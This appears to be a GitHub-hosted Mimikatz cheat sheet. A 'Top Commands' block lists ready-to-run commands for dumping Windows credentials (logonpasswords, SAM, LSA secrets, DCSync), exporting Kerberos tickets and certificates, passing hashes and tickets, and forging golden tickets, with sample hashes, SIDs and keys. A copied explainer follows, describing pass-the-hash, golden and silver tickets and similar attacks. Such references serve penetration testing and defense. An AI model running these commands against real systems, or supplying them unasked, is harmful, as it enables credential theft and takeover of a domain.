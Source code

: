 --- ---

<h2>Top Commands</h2>
```Terminal
#general
privilege::debug
log
log customlogfilename.log

#sekurlsa
sekurlsa::logonpasswords
sekurlsa::logonPasswords full
sekurlsa::tickets /export
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd

#kerberos
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi

#crypto
crypto::capi
crypto::cng
crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE
crypto::keys /export
crypto::keys /machine /export

#vault & lsadump
vault::cred
vault::list
token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert
lsadump::dcsync /user:domain\krbtgt /domain:lab.local

#pth
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a
sekurlsa::pth /user:Administrateur /domain:chocolate.local /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrateur /domain:chocolate.local /ntlm:cc36cf7a8514893efccd332446158b1a /aes256:b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
sekurlsa::pth /user:Administrator /domain:WOSHUB /ntlm:{NTLM_hash} /run:cmd.exe

#ekeys
sekurlsa::ekeys

#dpapi
sekurlsa::dpapi

#minidump
sekurlsa::minidump lsass.dmp

#ptt
kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi

#golden/silver
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi

#tgt
kerberos::tgt

#purge
kerberos::purge
```



---

<h2>What is Mimikatz?</h2>

[Mimikatz](https://github.com/gentilkiwi/mimikatz) is an open-source application that allows users to view and save authentication credentials such as [Kerberos tickets](https://www.varonis.com/blog/kerberos-authentication-explained/?hsLang=en). The toolset works with the current release of Windows and includes a collection of different network attacks to help assess vulnerabilities.

Attackers commonly use Mimikatz to steal credentials and escalate privileges because in most cases, endpoint protection software and antivirus systems will not detect or delete the attack. Conversely, [pen testers](https://www.varonis.com/blog/master-fileless-malware-penetration-testing/?hsLang=en) use Mimikatz to detect and exploit vulnerabilities in your networks so you can fix them.

## What can Mimikatz do?

![what-can-mimikatz-do-2x-png](https://info.varonis.com/hs-fs/hubfs/what-can-mimikatz-do-2x-png.png?width=1600&name=what-can-mimikatz-do-2x-png.png)

Mimikatz originally demonstrated how to exploit a single vulnerability in the Windows authentication system. Now it exposes several different kinds of vulnerabilities; Mimikatz can perform credential-gathering techniques such as:

-   **Pass-the-hash**: Windows used to [store password data in an NTLM hash](https://www.varonis.com/blog/windows-10-authentication-the-end-of-pass-the-hash/?hsLang=en). Attackers use Mimikatz to pass that exact hash string to the target computer to log in. Attackers don’t even need to crack the password — they just need to use the hash string as-is. It’s the equivalent of finding the master key to a building on the lobby floor. You need just that one key to get into all the doors.
-   **Pass-the-ticket**: Newer versions of Windows store password data in a construct called a ticket. Mimikatz provides functionality for a user to pass a Kerberos ticket to another computer and log in with that user’s ticket. It’s very similar to the pass-the-hash method.
-   **Overpass-the-hash (pass-the-key)**: Yet another flavor of the pass-the-hash, but this technique passes a unique key obtained from a domain controller to impersonate a user.
-   **Kerberoast golden tickets**: This is a pass-the-ticket attack, but it’s a specific ticket for a hidden account called KRBTGT, which is the account that encrypts all of the other tickets. A [golden ticket](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/?hsLang=en) provides you with non-expiring domain admin credentials to any computer on the network.
-   **Kerberoast silver tickets**: Another pass-the-ticket, but a [silver ticket](https://www.varonis.com/blog/kerberos-attack-silver-ticket/?hsLang=en) takes advantage of a feature in Windows that makes it easy for you to use services on the network. Kerberos grants a user a ticket-granting server (TGS) ticket, and a user can use that ticket to authentic to service accounts on the network. Microsoft doesn’t always check a TGS after it’s issued, so it’s easy to slip past any safeguards.
-   **Pass-the-cache**: Finally an attack that doesn’t take advantage of Windows! A pass-the-cache attack is generally the same as a pass-the-ticket, but this one uses the saved and encrypted login data on a Mac/UNIX/Linux system.